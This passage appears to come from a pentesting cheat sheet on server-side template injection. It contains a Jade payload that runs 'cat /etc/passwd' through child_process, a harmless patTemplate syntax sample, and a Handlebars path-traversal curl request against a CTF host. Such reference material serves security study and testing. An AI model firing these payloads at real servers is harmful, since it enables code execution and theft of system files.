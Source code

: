 

```
#{root.process.mainModule.require('child_process').spawnSync('cat', ['/etc/passwd']).stdout}
```

**More information**

- In Jade section of [https://portswigger.net/research/server-side-template-injection](https://portswigger.net/research/server-side-template-injection)
    
- [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jade--codepen](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jade--codepen)
    

### 

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#pattemplate-php)

patTemplate (PHP)

> [patTemplate](https://github.com/wernerwa/pat-template) non-compiling PHP templating engine, that uses XML tags to divide a document into different parts



```
<patTemplate:tmpl name="page">
  This is the main page.
  <patTemplate:tmpl name="foo">
    It contains another template.
  </patTemplate:tmpl>
  <patTemplate:tmpl name="hello">
    Hello {NAME}.<br/>
  </patTemplate:tmpl>
</patTemplate:tmpl>
```

**More information**

- [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#pattemplate](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#pattemplate)
    

### 

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#handlebars-nodejs)

Handlebars (NodeJS)

Path Traversal (more info [here](https://blog.shoebpatel.com/2021/01/23/The-Secret-Parameter-LFR-and-Potential-RCE-in-NodeJS-Apps/)).



```
curl -X 'POST' -H 'Content-Type: application/json' --data-binary $'{\"profile\":{"layout\": \"./../routes/index.js\"}}' 'http://ctf.shoebpatel.com:9090/'
```
